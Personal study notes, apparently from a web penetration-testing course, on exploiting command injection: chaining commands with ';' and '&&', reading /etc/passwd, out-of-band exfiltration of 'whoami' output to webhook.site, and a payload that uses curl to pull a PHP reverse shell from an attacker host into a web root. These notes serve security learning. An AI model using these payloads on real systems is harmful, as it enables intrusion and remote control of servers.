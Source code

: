 https://appsecexplained.gitbook.io - a solid resource for for many things (not just command injection).  Has some quick exploitation checks to use.

You can use `;` to end commands and move to a second command
You can use `#` to comment out the rest of a command

Among other things.  Check the link above and also do some google searches in order to find others.

When returning items such as `cat etc/passwd` and/or `ls -lah` and you get it all in a not so readable mess, look at the page source (ctrl + u) and it will all be listed there in a nice readable format.

If you are able to get command injection, next step might be to try and pop a shell.  We'll always want to try and use the full path `/bin/bash/<script>` or `usr/local/bin/php/<script>` or otherwise.  If the first one doesn't work then try something else.

Using `which php` and `which python` and the like can tell you what other services are running.  This will also give you the full paths that you need for your script.

There are times that you will have out-of-band injection.  It's out of band because in order to see what the return is, we need to catch it in another location, such as https://webhook.site.
	For instance, we might have a command injection where we enter the following command
		```https://webhook.site/<random site number that gets spit out>?`whoami`
	```This (with the included ? and command in backticks (tilde with no shift)) could return a result with the command run in your webhook.site site.

You can also try to get a new line of command to execute, for example:
	![[Pasted image 20240630181836.png]]
		Put in the screen shot as the \\ character would not show up for whatever reason but you would use that \\n to create a new line and run a separate command.
	This is an old style.  A new one was added to the video
		`https://tcm-sec.com && curl 10.0.0.200:4444/rev.php > /var/www/html/rev.php`
			This command will check the website but will also `&&` run the curl command and save the output to `>` the location `/var/www/html/rev.php` so that we can go in and call that website to trigger the shell by going to `thesite.com/rev.php`